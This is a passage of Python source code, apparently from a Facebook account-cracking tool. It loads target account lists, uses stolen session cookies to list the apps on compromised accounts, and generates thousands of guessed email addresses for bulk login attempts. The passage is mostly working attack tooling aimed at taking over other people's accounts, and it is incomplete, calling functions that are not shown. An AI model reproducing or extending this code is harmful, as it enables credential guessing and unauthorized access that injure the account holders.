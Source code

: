      
l = []

####@-----File-----@####
def file():
    os.system("clear")
    print(logo)
    if 'gm' in l:
        file = '. Shezii😍'
    else:
        file = input(f"[-] PUT FILE NAME : ")
    try:
        for x in open(file,'r').readlines():
            accounts.append(x.strip())
    except:
        print(f"{oo('!')}File Not Found");time.sleep(1)
        JXS_Main()
     
    method()
    exit()
    
            
   
####@-----AppCheck-----@####
def check(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
    	pass
    else:
        for gm in game:
            print(f"\033[1;97m---\033[1;96m"+gm.replace('huwtn',' JXS-code=MEMORIES Shezii😍-33'))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        pass
    else:
        for gm in game:
            print(f"\033[1;97m---\033[1;93m"+gm.replace('riJan','JXS-182^)Code=MEMORIES Shezii😍-2233]'))


####@-----Gmail-----@####

def gmail():     
        os.system('rm -rf .Shezii😍')
        first = input(f'{oo("?")}Put First Name: ')
        last = input(f'{oo("?")}Put Last Name: ')
        domain = input(f'{oo("?")}Put Domain: ')
        try:
            limit = input(f'[?] Enter Limits ex 4990: ')
        except ValueError:
            limit = 5000
        lists = ['3','4']
        for xd in range(int(limit)):
            lchoice = random.choice(lists)
            if '3' in lchoice:
                mail = ''.join(random.choice(string.digits) for _ in range(3))
                open('.Shezii😍','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
            else:
                mail = ''.join(random.choice(string.digits) for _ in range(4))
                open('.Shezii😍','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
            fo = open('.Shezii😍', 'r').read().splitlines()